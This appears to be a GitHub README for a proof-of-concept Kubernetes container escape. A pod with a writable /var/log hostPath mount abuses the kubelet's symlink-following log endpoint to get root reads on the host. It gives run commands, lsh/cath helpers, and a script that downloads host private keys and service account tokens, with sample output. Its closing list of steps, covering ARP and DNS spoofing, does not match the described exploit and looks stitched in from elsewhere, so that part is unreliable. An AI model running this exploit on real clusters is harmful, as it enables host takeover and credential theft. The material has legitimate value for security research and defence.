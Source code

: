 # Kubelet Exploit For /var/log Mount

Kube-pod-escape is a POC for the an exploit on the symlink following behaviour of logs files serving in the kubelet, in addition with a pod that has a write hostPath mount to /var/log.  
This POC shows the outcome of a pod which uses that mount, and how it can escape to the host machine.  
Further read on this discovery can be done on the following: <link_to_blog>

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster, 
Without restriction for retrieving logs with `kubectl logs <pod>`


## Run the exploit

First, create the pod by:
    
```bash
$ kubectl create -f pods/
pod/escaper created
```

After the pod was created, exec into the escaper pod.
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh
Usage: [cath|lsh] <host_path>
```
### lsh
Works like ls, but using root access on the host machine.
### cath
Works like cat, but using root access on the host machine.

Example:
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh /proc
1/
10/
10034/
10042/
10047/
....
```

## Extract Sensitive Data
Inside the `~/exploit` folder, there's a python script, which locates and downloads private key files from the host, as well as kubernetes service account tokens.
(to find tokens,the script searches the /var/lib/kubelet/pods folder. this way it can read the mounted token files for each pod that runs on the host)

## Run the script
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log
[*] fetching token files from host
[*] downloaded: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/aqua-token-blkpc/token
...
```

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt


